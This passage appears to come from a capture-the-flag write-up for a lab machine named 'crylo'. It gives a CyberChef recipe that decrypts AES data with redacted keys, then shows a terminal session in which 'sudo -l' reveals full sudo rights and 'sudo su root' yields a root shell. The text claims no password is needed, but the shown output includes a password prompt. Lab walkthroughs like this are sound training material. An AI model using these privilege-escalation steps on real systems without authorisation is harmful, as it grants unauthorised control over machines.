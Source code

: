 
[CyberChef Formula](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Hex','string':'c9[redacted]c3'%7D,%7B'option':'Hex','string':'21[redacted]91'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=Vk[redacted]MD0)

## Become root

anof can `sudo` anything with no password. 

```terminal
(remote) anof@crylo:/home/anof$ sudo -l
[sudo] password for anof: 
Matching Defaults entries for anof on crylo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User anof may run the following commands on crylo:
    (ALL : ALL) ALL
(remote) anof@crylo:/home/anof$ sudo su root
root@crylo:/home/anof#
```
From here we can capture the root flag.